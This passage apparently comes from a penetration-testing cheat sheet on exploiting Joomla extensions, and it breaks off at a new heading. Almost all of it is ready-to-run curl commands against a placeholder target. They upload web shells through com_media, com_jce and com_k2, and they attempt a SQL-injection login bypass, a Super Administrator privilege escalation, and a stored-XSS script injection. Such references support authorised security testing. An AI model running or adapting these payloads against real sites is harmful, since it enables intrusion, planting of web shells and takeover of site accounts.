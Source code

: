 
## Extension & Component Exploitation

### Common Vulnerable Components

#### Component enumeration for vulnerabilities
```bash
# Search for known vulnerable components
searchsploit joomla com_
searchsploit "joomla component"

# Check component versions against CVE database
curl -s http://target.com/administrator/components/com_content/content.xml | grep version
```

#### High-Risk Component Categories

**File Management Components:**
```bash
# com_media vulnerabilities
# Directory traversal and upload bypasses
curl -X POST "http://target.com/index.php?option=com_media" \
  -F "file=@shell.php" \
  -F "format=raw"

# com_jce vulnerabilities  
# TinyMCE editor file upload bypasses
curl -X POST "http://target.com/index.php?option=com_jce" \
  -F "method=upload" \
  -F "file=@webshell.php"
```

**User Management Components:**
```bash
# com_users SQL injection
curl "http://target.com/index.php?option=com_users&view=login&user[]=admin'OR'1'='1"

# com_community privilege escalation
curl -X POST "http://target.com/index.php?option=com_community" \
  -d "task=register&user[usertype]=Super Administrator"
```

**Content Management Components:**
```bash
# com_content XSS and injection
curl -X POST "http://target.com/index.php?option=com_content&task=article.save" \
  -d "jform[articletext]=<script>alert('XSS')</script>"

# com_k2 arbitrary file upload
curl -X POST "http://target.com/index.php?option=com_k2&task=media.connector" \
  -F "upload=@shell.php"
```

### Extension Database Research

